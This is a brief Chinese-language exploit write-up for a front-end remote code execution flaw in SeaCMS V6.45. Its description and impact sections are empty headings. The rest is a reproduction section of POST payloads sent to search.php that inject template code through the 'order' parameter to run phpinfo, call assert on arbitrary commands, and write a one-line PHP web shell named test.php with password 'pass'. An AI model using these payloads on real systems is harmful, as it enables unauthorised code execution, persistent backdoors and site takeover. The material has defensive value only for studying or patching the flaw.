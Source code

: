 # 海洋 CMS V6.45 前台 getshell

> 原文：[http://book.iwonder.run/0day/Seacms/海洋 CMS V6.45.html](http://book.iwonder.run/0day/Seacms/海洋 CMS V6.45.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

[http://0-sec.org/search.php?searchtype=5](http://0-sec.org/search.php?searchtype=5)

POST

```
searchtype=5&order=}{end if} {if:1)phpinfo();if(1}{end if} 
```

```
searchtype=5&searchword=d&order=}{end if}{if:1)print_r($_POST[func]($_POST[cmd]));//}{end if}&func=assert&cmd=phpinfo(); 
```

一句话 payload，文件 test.php 密码 pass:

path:

```
http://0-sec.org/search.php 
```

```
}{end if}{if:1)print_r($_POST[func]($_POST[cmd]));//}{end if}&func=assert&cmd=fwrite(fopen("test.php","w"),'<?php eval($_POST["pass"]);?>') 
```

